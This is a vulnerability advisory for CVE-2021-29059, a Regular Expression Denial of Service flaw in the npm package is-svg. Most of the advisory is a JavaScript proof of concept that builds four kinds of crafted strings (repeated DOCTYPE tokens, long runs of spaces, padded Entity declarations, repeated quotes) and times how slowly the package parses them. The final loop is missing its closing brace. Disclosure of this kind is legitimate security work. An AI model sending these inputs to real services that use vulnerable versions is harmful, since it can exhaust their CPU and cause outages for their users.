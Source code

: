 # CVE-2021-29059
## Package

is-svg

## Overview

[is-svg](https://www.npmjs.org/package/is-svg) is a Check if a string or buffer is SVG

Affected versions of this package are vulnerable to Regular Expression Denial of Service (ReDoS) via the `removeDtdMarkupDeclarations`and `entityRegex` regular expressions, bypassing the fix for CVE-2021-28092.

## Proof of Concept



```javascript
//1) 1st ReDoS caused by the two sub-regexes [A-Z]+ and [^>]* in `removeDtdMarkupDeclarations`.
const isSvg = require('is-svg');
function build_attack1(n) {
var ret = '<!'
for (var i = 0; i < n; i++) {
ret += 'DOCTYPE'
}

return ret+"";
}
for(var i = 1; i <= 50000; i++) {
   if (i % 10000 == 0) {
       var time = Date.now();
       var attack_str = build_attack1(i);
       isSvg(attack_str);

       var time_cost = Date.now() - time;
       console.log("attack_str.length: " + attack_str.length + ": " + time_cost+" ms")
 }
}

//2) 2nd ReDoS caused by ? the first sub-regex  \s*  in `entityRegex`.
function build_attack2(n) {
var ret = ''
for (var i = 0; i < n; i++) {
ret += ' '
}

return ret+"";
}
for(var i = 1; i <= 50000; i++) {
   if (i % 10000 == 0) {
       var time = Date.now();
       var attack_str = build_attack2(i);
       isSvg(attack_str);

       var time_cost = Date.now() - time;
       console.log("attack_str.length: " + attack_str.length + ": " + time_cost+" ms")
 }
}


//3rd ReDoS caused by the sub-regex \s+\S*\s*  in `entityRegex`.
function build_attack3(n) {
var ret = '<!Entity'
for (var i = 0; i < n; i++) {
ret += ' '
}

return ret+"";
}
for(var i = 1; i <= 50000; i++) {
   if (i % 10000 == 0) {
       var time = Date.now();
       var attack_str = build_attack3(i);
       isSvg(attack_str);

       var time_cost = Date.now() - time;
       console.log("attack_str.length: " + attack_str.length + ": " + time_cost+" ms")
 }
}

//4th ReDoS caused by the sub-regex \S*\s*(?:"|')[^"]+  in `entityRegex`.
function build_attack4(n) {
var ret = '<!Entity '
for (var i = 0; i < n; i++) {
ret += '\''
}

return ret+"";
}
for(var i = 1; i <= 50000; i++) {
   if (i % 10000 == 0) {
       var time = Date.now();
       var attack_str = build_attack4(i);
       isSvg(attack_str);

       var time_cost = Date.now() - time;
       console.log("attack_str.length: " + attack_str.length + ": " + time_cost+" ms")
 }
```

## GitHub Commit

https://github.com/sindresorhus/is-svg/commit/732fc72779840c45a30817d3fe28e12058592b02

